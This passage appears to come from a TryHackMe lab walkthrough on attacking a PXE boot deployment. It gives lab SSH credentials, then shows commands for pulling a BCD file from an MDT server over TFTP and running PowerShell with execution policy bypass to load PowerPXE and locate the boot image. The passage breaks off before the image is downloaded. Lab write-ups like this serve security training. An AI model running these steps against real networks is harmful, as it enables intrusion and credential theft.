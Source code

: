With this initial information now recovered from DHCP (wink wink), we can enumerate and retrieve the PXE Boot image. We will be using our SSH connection on THMJMP1 for the next couple of steps, so please authenticate to this SSH session using the following:

`ssh thm@THMJMP1.za.tryhackme.com`

and the password of `Password1@`.

To ensure that all users of the network can use SSH, start by creating a folder with your username and copying the powerpxe repo into this folder:

SSHCommand Prompt

```markup
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir <username>
C:\Users\THM\Documents> copy C:\powerpxe <username>\
C:\Users\THM\Documents\> cd <username>
```

The first step we need to perform is using TFTP and downloading our BCD file to read the configuration of the MDT server. TFTP is a bit trickier than FTP since we can't list files. Instead, we send a file request, and the server will connect back to us via UDP to transfer the file. Hence, we need to be accurate when specifying files and file paths. The BCD files are always located in the /Tmp/ directory on the MDT server. We can initiate the TFTP transfer using the following command in our SSH session:

SSHCommand Prompt

```markup
C:\Users\THM\Documents\Am0> tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s
```

You will have to lookup THMMDT IP with `nslookup thmmdt.za.tryhackme.com`. With the BCD file now recovered, we will be using [powerpxe](https://github.com/wavestone-cdt/powerpxe) to read its contents. Powerpxe is a PowerShell script that automatically performs this type of attack but usually with varying results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

SSHCommand Prompt

```markup
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.   

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:
